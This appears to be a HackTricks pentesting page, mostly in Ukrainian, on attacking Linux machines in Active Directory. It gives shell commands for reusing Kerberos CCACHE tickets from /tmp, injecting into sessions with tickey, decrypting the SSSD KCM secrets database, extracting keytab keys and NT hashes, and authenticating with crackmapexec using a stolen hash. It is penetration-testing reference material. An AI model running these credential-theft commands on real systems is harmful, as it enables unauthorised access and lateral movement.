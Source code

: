 # Linux Active Directory

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

{% embed url="https://websec.nl/" %}

Лінукс-машина також може бути присутня в середовищі Active Directory.

Лінукс-машина в AD може **зберігати різні квитки CCACHE у файлах. Ці квитки можуть бути використані та зловживані, як і будь-який інший квиток kerberos**. Щоб прочитати ці квитки, вам потрібно бути власником квитка або **root** на машині.

## Enumeration

### AD enumeration from linux

Якщо у вас є доступ до AD в лінукс (або bash у Windows), ви можете спробувати [https://github.com/lefayjey/linWinPwn](https://github.com/lefayjey/linWinPwn) для перерахунку AD.

Ви також можете перевірити наступну сторінку, щоб дізнатися **інші способи перерахунку AD з лінукс**:

{% content-ref url="../../network-services-pentesting/pentesting-ldap.md" %}
[pentesting-ldap.md](../../network-services-pentesting/pentesting-ldap.md)
{% endcontent-ref %}

### FreeIPA

FreeIPA є відкритим **альтернативою** Microsoft Windows **Active Directory**, в основному для **Unix** середовищ. Він поєднує в собі повний **LDAP каталог** з MIT **Kerberos** Центром розподілу ключів для управління, подібним до Active Directory. Використовуючи систему сертифікатів Dogtag для управління сертифікатами CA та RA, він підтримує **багатофакторну** аутентифікацію, включаючи смарт-карти. SSSD інтегровано для процесів аутентифікації Unix. Дізнайтеся більше про це в:

{% content-ref url="../freeipa-pentesting.md" %}
[freeipa-pentesting.md](../freeipa-pentesting.md)
{% endcontent-ref %}

## Playing with tickets

### Pass The Ticket

На цій сторінці ви знайдете різні місця, де ви могли б **знайти квитки kerberos всередині хоста лінукс**, на наступній сторінці ви можете дізнатися, як перетворити ці формати квитків CCache на Kirbi (формат, який вам потрібно використовувати в Windows) і також як виконати атаку PTT:

{% content-ref url="../../windows-hardening/active-directory-methodology/pass-the-ticket.md" %}
[pass-the-ticket.md](../../windows-hardening/active-directory-methodology/pass-the-ticket.md)
{% endcontent-ref %}

### CCACHE ticket reuse from /tmp

Файли CCACHE є бінарними форматами для **зберігання облікових даних Kerberos**, зазвичай зберігаються з правами 600 у `/tmp`. Ці файли можна ідентифікувати за їх **форматом імені, `krb5cc_%{uid}`,** що відповідає UID користувача. Для перевірки квитка аутентифікації, **змінна середовища `KRB5CCNAME`** повинна бути встановлена на шлях до бажаного файлу квитка, що дозволяє його повторне використання.

Перерахуйте поточний квиток, що використовується для аутентифікації, за допомогою `env | grep KRB5CCNAME`. Формат є портативним, і квиток може бути **повторно використаний, встановивши змінну середовища** за допомогою `export KRB5CCNAME=/tmp/ticket.ccache`. Формат імені квитка Kerberos - `krb5cc_%{uid}`, де uid - це UID користувача.
```bash
# Find tickets
ls /tmp/ | grep krb5cc
krb5cc_1000

# Prepare to use it
export KRB5CCNAME=/tmp/krb5cc_1000
```
### CCACHE повторне використання квитків з keyring

**Квитки Kerberos, збережені в пам'яті процесу, можуть бути витягнуті**, особливо коли захист ptrace на машині вимкнений (`/proc/sys/kernel/yama/ptrace_scope`). Корисний інструмент для цієї мети можна знайти за адресою [https://github.com/TarlogicSecurity/tickey](https://github.com/TarlogicSecurity/tickey), який полегшує витяг, інжектуючи в сесії та скидаючи квитки в `/tmp`.

Щоб налаштувати та використовувати цей інструмент, слід виконати наведені нижче кроки:
```bash
git clone https://github.com/TarlogicSecurity/tickey
cd tickey/tickey
make CONF=Release
/tmp/tickey -i
```
Ця процедура спробує інжектувати в різні сесії, вказуючи на успіх, зберігаючи витягнуті квитки в `/tmp` з іменуванням `__krb_UID.ccache`.

### Повторне використання квитків CCACHE з SSSD KCM

SSSD підтримує копію бази даних за шляхом `/var/lib/sss/secrets/secrets.ldb`. Відповідний ключ зберігається як прихований файл за шляхом `/var/lib/sss/secrets/.secrets.mkey`. За замовчуванням ключ доступний лише для читання, якщо у вас є **root** права.

Виклик \*\*`SSSDKCMExtractor` \*\* з параметрами --database та --key розпарсить базу даних та **дешифрує секрети**.
```bash
git clone https://github.com/fireeye/SSSDKCMExtractor
python3 SSSDKCMExtractor.py --database secrets.ldb --key secrets.mkey
```
**Кеш облікових даних Kerberos можна перетворити на використовуваний файл Kerberos CCache**, який можна передати Mimikatz/Rubeus.

### Повторне використання квитків CCACHE з keytab
```bash
git clone https://github.com/its-a-feature/KeytabParser
python KeytabParser.py /etc/krb5.keytab
klist -k /etc/krb5.keytab
```
### Витягти облікові записи з /etc/krb5.keytab

Ключі облікових записів служб, які є необхідними для служб, що працюють з привілеями root, надійно зберігаються у файлах **`/etc/krb5.keytab`**. Ці ключі, подібно до паролів для служб, вимагають суворої конфіденційності.

Щоб перевірити вміст файлу keytab, можна використовувати **`klist`**. Цей інструмент призначений для відображення деталей ключа, включаючи **NT Hash** для аутентифікації користувачів, особливо коли тип ключа визначено як 23.
```bash
klist.exe -t -K -e -k FILE:C:/Path/to/your/krb5.keytab
# Output includes service principal details and the NT Hash
```
Для користувачів Linux, **`KeyTabExtract`** пропонує функціональність для витягування хешу RC4 HMAC, який можна використовувати для повторного використання хешу NTLM.
```bash
python3 keytabextract.py krb5.keytab
# Expected output varies based on hash availability
```
На macOS **`bifrost`** слугує інструментом для аналізу файлів keytab.
```bash
./bifrost -action dump -source keytab -path /path/to/your/file
```
Використовуючи витягнуту інформацію про облікові записи та хеші, можна встановити з'єднання з серверами за допомогою інструментів, таких як **`crackmapexec`**.
```bash
crackmapexec 10.XXX.XXX.XXX -u 'ServiceAccount$' -H "HashPlaceholder" -d "YourDOMAIN"
```
## Посилання

* [https://www.tarlogic.com/blog/how-to-attack-kerberos/](https://www.tarlogic.com/blog/how-to-attack-kerberos/)
* [https://github.com/TarlogicSecurity/tickey](https://github.com/TarlogicSecurity/tickey)
* [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#linux-active-directory](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#linux-active-directory)

{% embed url="https://websec.nl/" %}

{% hint style="success" %}
Вивчайте та практикуйте AWS Hacking:<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
Вивчайте та практикуйте GCP Hacking: <img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримати HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи telegram**](https://t.me/peass) або **слідкуйте** за нами в **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Діліться хакерськими трюками, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на github.

</details>
{% endhint %}
